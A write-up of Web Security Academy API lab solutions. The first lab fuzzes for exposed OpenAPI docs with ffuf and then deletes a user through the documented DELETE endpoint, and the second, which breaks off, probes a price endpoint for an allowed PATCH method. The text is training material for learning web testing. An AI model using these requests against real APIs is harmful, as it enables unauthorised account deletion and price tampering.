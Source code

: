 # Navigation
- [Exploiting an API endpoint using documentation](#exploiting-an-api-endpoint-using-documentation)
- [Finding and exploiting an unused API endpoint](#finding-and-exploiting-an-unused-api-endpoint)
- [Exploiting a mass assignment vulnerability](#exploiting-a-mass-assignment-vulnerability)
- [Exploiting server-side parameter pollution in a query string](#exploiting-server-side-parameter-pollution-in-a-query-string)
- [Exploiting server-side parameter pollution in a REST URL](#exploiting-server-side-parameter-pollution-in-a-rest-url)
# Exploiting an API endpoint using documentation
- Find exposed API documentation and delete `carlos`
- Login using `wiener:peter`
1. Fuzz for the API endpoint
```sh
ffuf -u https://0a69002c04e075f580fa9955005800ae.web-security-academy.net/FUZZ -w api-documentation-endpoint1.txt
```
- Wordlist from [here](https://github.com/z5jt/API-documentation-Wordlist/blob/main/API-Documentation-Wordlist/api-documentation-endpoint1.txt)
2. Identified endpoint `/api/openapi.json`
3. Make a request to discovered endpoint and we get the JSON body telling us what the API can do
4. Make a request specifying usernames to get their information
```HTTP
GET /api/user/carlos HTTP/2
Host: 0a69002c04e075f580fa9955005800ae.web-security-academy.net
```
- Disclosed username and email
5. Further down the openapi description, there is a DELETE method that can be used and also a JSON body that requires the username and email to perform the operation
6. Submit a request to delete the carlos user
```http
DELETE /api/user/carlos HTTP/2
Host: 0a69002c04e075f580fa9955005800ae.web-security-academy.net
...<SNIP>...
{"username":"carlos","email":"carlos@carlos-montoya.net"}
```
# Finding and exploiting an unused API endpoint
- Exploit hidden API endpoint to buy a **lightweight l33t leather jacket**
- Login using `wiener:peter`
1. Authenticate
2. View home page and select the "l33t" jacket
3. Identify GET request made to API
```http
# Request
GET /api/products/1/price

# Response
HTTP/2 200 OK

{"price":"$1337.00","message":"20 people are watching this item right now"}
```
4. Change request method to `OPTIONS` and we get an `Allow` header in the response disclosing that `PATCH` can be used
```HTTP
# Request
OPTIONS /api/products/1/price

# Response
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
```